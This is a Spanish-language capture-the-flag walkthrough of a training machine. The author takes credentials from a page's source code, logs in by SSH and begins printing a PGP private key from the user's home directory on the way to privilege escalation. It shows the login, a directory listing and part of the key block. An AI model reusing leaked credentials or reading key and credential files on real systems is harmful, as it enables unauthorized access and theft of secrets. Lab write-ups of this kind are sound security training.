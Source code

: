 Observamos unas credenciales en la parte inferior, `skyfuck:8730281lkjlkjdqlksalks` y recordando, se tiene abierto el puerto 22; por lo que podriamos tratar de acceder vía ssh con las credenciales obtenidas.

```
❯ ssh skyfuck@10.10.168.168
The authenticity of host '10.10.168.168 (10.10.168.168)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.168.168' (ECDSA) to the list of known hosts.
skyfuck@10.10.168.168's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ whoami
skyfuck
skyfuck@ubuntu:~$
```

Ya podemos acceder a la máquina y podemos leer la primera flag (user.txt). Ahora debemos encontrar alguna forma de escalar privilegios. Dentro del directorio HOME del usuario skyfuck vemos el archivo `tryhackme.asc`; la cual se trata de una llave PGP privada.

```
skyfuck@ubuntu:~$ ls -la
total 40
drwxr-xr-x 3 skyfuck skyfuck 4096 Jun 15 20:53 .
drwxr-xr-x 4 root    root    4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck  136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4096 Jun 15 20:53 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
skyfuck@ubuntu:~$ cat tryhackme.asc 
skyfuck@ubuntu:~$ cat tryhackme.asc 
-----BEGIN PGP PRIVATE KEY BLOCK-----
Version: BCPG v1.63

lQUBBF5ocmIRDADTwu9RL5uol6+jCnuoK58+PEtPh0Zfdj4+q8z61PL56tz6YxmF
3TxA9u2jV73qFdMr5EwktTXRlEo0LTGeMzZ9R/uqe+BeBUNCZW6tqI7wDw/U1DEf
StRTV1+ZmgcAjjwzr2B6qplWHhyi9PIzefiw1smqSK31MBWGamkKp/vRB5xMoOr5
ZsFq67z/5KfngjhgKWeGKLw4wXPswyIdmdnduWgpwBm4vTWlxPf1hxkDRbAa3cFD
B0zktqArgROuSQ8sftGYkS/uVtyna6qbF4ywND8P6BMpLIsTKhn+r2KwLcihLtPk
V0K3Dfh+6bZeIVam50QgOAXqvetuIyTt7PiCXbvOpQO3OIDgAZDLodoKdTzuaXLa
cuNXmg/wcRELmhiBsKYYCTFtzdF18Pd9cM0L0mVy/nfhQKFRGx9kQkHweXVt+Pbb
3AwfUyH+CZD5z74jO53N2gRNibUPdVune7pGQVtgjRrvhBiBJpajtzYG+PzBomOf
RGZzGSgWQgYg3McBALTlTlmXgobn9kkJTn6UG/2Hg7T5QkxIZ7yQhPp+rOOhDACY
hloI89P7cUoeQhzkMwmDKpTMd6Q/dT+PeVAtI9w7TCPjISadp3GvwuFrQvROkJYr
WAD6060AMqIv0vpkvCa471xOariGiSSUsQCQI/yZBNjHU+G44PIq+RvB5F5O1oAO
wgHjMBAyvCnmJEx4kBVVcoyGX40HptbyFJMqkPlXHH5DMwEiUjBFbCvXYMrOrrAc
1gHqhO+lbKemiT/ppgoRimKy/XrbOc4dHBF0irCloHpvnM1ShWqT6i6E/IeQZwqS
9GtjdqEpNZ32WGpeumBoKprMzz7RPPZPN0kbyDS6ThzhQjgBnQTr9ZuPHF49zKwb
```